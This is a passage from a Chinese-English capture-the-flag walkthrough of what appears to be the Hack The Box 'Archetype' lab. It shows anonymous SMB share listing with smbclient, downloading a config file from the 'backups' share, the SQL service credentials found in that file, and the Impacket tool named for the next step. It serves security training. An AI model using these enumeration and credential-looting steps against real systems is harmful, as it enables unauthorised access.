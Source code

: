```powershell
┌──(root㉿kali)-[~]
└─# smbclient -L 10.129.90.203             
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
```

带美元符号的是需要管理员权限，所以本题的答案`backups`

## task 3

What is the password identified in the file on the SMB share?

SMB共享文件中标识的密码是什么？

`M3g4c0rp123`



smbclient -N -L 10.129.233.26（-N表示无密码登录，-L可以查看服务器上可用服务）
通过查找发现在backups目录下存在一个配置文件prod.dtsConfig,将其下载本地进行分析。

```powershell
┌──(root㉿kali)-[/home/kali]
└─# smbclient -N \\10.129.233.26\backups
Try "help" to get a list of possible commands.
smb: > dir
.                                   D        0  Mon Jan 20 20:20:57 2020
..                                  D        0  Mon Jan 20 20:20:57 2020
prod.dtsConfig                     AR      609  Mon Jan 20 20:23:02 2020
	5056511 blocks of size 4096. 2578280 blocks available
 
smb: > get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: > exit

```

从中发现用户名与密码为**password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc**。所以尝试使用其进行mysql数据库登录。

## task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

可以使用Impacket集合中的哪些脚本来建立与Microsoft SQL Server的身份验证连接？

`mssqlclient.py`
